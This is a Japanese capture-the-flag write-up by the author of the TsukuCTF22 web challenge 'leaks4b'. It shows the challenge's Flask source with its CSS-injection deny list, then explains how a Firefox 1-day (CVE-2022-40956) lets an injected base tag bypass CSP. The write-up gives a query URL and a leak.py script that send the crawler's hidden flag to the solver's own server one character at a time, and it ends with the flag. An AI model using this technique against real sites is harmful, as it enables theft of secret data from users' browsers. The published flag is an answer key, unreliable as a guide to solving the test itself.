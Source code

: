 ```yaml
---
title: leaks4b
description: Firefoxの1day問題
author: Satoki
genre: Web
solver: 3
point: 500
---
```


# leaks4b

## 問題文

ケーキをあいまい検索できます。 どれを注文するか迷ってしまいます！！  
`※フラグの形式はTsukuCTF22{[a-z]{7}}です。多数のリクエストを許容する問題ですが、数秒間隔をあけてください。配布されているソースは厳密なものではありません。フラグの提出回数は3回までとなっています。`  
[http://133.130.96.134:31416](http://133.130.96.134:31416/)

## 難易度

**hard**

## 作問にあたって

趣味 CTF ということもあり、キモイ問題を出しても良いでしょうということで 1day 問を出しました。  
Mozilla に早めに報告してしまったので、0day 問ではなくなってしまいました(CVE-2022-40956)。  
CSSi や ReDoS を用いたリークなど非想定解が思い浮かびまくり、修正しました。  
もし、Firefox の 1day 以外で解かれた方がいましたら Writeup などで教えてくれると嬉しいです。  
ちなみに Misc の soder はこの非想定解から生まれた問題です。  
そして 4b は嘘です。

## 解法

URL とソースが渡される。  
アクセスするとケーキを検索できるページのようだ。  
![site1.png](images/site1.png)  
クローラが設置されており、パティシエが閲覧してくれるようだ。  
![site2.png](images/site2.png)  
ひとまず配布されたソースの app.py を見ると、以下のようであった。

```python
~~~
def cssi_sanitizer(text):
    # XSS could be mitigated by CSP, but CSSi and ReDoS are dangerous.
    deny_list = ["stylesheet", "import", "image", "style", "flag", "link", "img", "\"", "$", "'", "(", ")", "*", "+", ":", ";", "?", "@", "[", "\\", "]", "^", "{", "}"]
    text = text.lower()
    if any([hack in text for hack in deny_list]):
        return "ハッキングケーキ"
    return text

menu = ["チョコレートケーキ, チョコケーキ, chocolatecake", "チーズケーキ, cheesecake", "バナナケーキ, bananacake"]

~~~
@app.route("/")
def top():
    cake = request.args.get("cake", "チョコレートケーキ")
    cake = cssi_sanitizer(cake[:100])
    flag = request.cookies.get("flag")
    # It is not expected to steal the cookie.
    # This is "leaks4b."
    if (flag == FLAG) and (re.findall(cake, FLAG)):
        img = "flag0.jpg"
    elif re.findall(cake, menu[0]):
        img = f"cake0.jpg"
    elif re.findall(cake, menu[1]):
        img = f"cake1.jpg"
    elif re.findall(cake, menu[2]):
        img = f"cake2.jpg"
    else:
        img = f"cake3.jpg"
    nonce = secrets.token_urlsafe(16)
    return f"""<!doctype html>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-{nonce}'; base-uri 'none'; connect-src 'none'; font-src 'none'; form-action 'none'; frame-src 'none'; object-src 'none'; require-trusted-types-for 'script'; worker-src 'none';">
    <script src="https://cdn.tailwindcss.com" nonce="{nonce}"></script>
    <title>Leaks4b</title>
</head>
~~~
"""

~~~
@app.route("/order", methods=["POST"])
def order_post():
    url = request.form.get("url", "____")
    if not url.startswith("http"):
        return "[ERROR] http and https schemes are allowed."
    try:
        with sync_playwright() as p:
            browser = p.firefox.launch()
            context = browser.new_context()
            context.add_cookies([{"name": "flag", "value": FLAG, "httpOnly": True, "url": URL}])
            page = context.new_page()
            page.goto(url, timeout=10000)
            browser.close()
    except Exception as e:
        print(e)
        pass
    return "I received your cake order. Have the flag and wait for your cake!"
~~~
```

`?cake=`に入力した文字を正規表現としてケーキを検索している。  
フラグも検索できるが、cookie がフラグ文字列と一致している場合にのみ検索可能なようで、クローラ以外には不可能と考えられる。  
フラグが検索できた場合に表示される画像は`flag0.jpg`であり、ケーキは`cake0~3.jpg`である。  
この画像にフラグが書かれているのではと予測し、アクセスするが以下の画像が表示されるだけであった。  
![flag0.jpg](images/flag0.jpg)  
一見すると`?cake=`で任意の HTML タグを差し込め、XSS によってクローラの cookie を取得できそうだが httpOnly であるようだ。  
さらに cssi_sanitizer と、とんでもなく厳しい CSP により守られており、XSS は愚か CSSi も難しい。  
何とかしてクローラのフラグ検索結果の成否をリークしたい。  
ここでユーザ由来の正規表現を使っているため、ReDoS の可能性もあることに気づく。  
幸い CSP に img の制限はないため、自身のドメインを src に設定した img タグを挿入し、アクセスの有無を確認することで ReDoS の応答遅延によってフラグをリークする手法が思い浮かぶ。  
しかし cssi_sanitizer や文字数制限が邪魔をして、これも難しい。  
ここで試しによくある手法である base タグを挿入すると、CSP で none であるはずなのになぜか img の src を base の href へ問い合わせることがわかる。  
これによって、CSP をバイパスして img の相対パスがリークできる。  
img の画像ファイル名は検索結果によって異なるためクローラのフラグ検索結果のオラクルになりえる。  
あとはフラグに一致する正規表現と base タグを cssi_sanitizer を躱してクエリに設定してやればよい。  
フラグの`TsukuCTF22{`リークするクエリは以下になる。

```txt
http://133.130.96.134:31416/?cake=.suku...22.|%3Cbase%20href=//[自身のサーバ]%3E
```

base タグは`|`で設定し、特殊文字と小文字化に注意する(フラグの`{`などは`.`を利用して任意の一文字として埋めてやればよい)。  
リークが行えることがわかったら、`/static/img/flag0.jpg`が来るまで小文字すべてをクローラへ投げてやり、ヒットしたらフラグ文字列に追加し次の文字を探せばよい。  
以下の leak.py で行う。

```python
import requests

TARGET_URL = "http://133.130.96.134:31416"
LEAK_URL = "http://[自身のサーバ]".replace("http:", "").replace("https:", "")

FLAG = ".suku...22."

for c in "abcdefghijklmnopqrstuvwxyz.":
    res = requests.post(f"{TARGET_URL}/order", data={"url": f"{TARGET_URL}/?cake={FLAG}{c}|%3Cbase%20href={LEAK_URL}%3E"})
    print(res.text)
```

実行し、手動でリークした文字を追加していくと flag が得られた(自動化もできるが手動でも可能なような flag になっている)。

## TsukuCTF22{cakeuma}
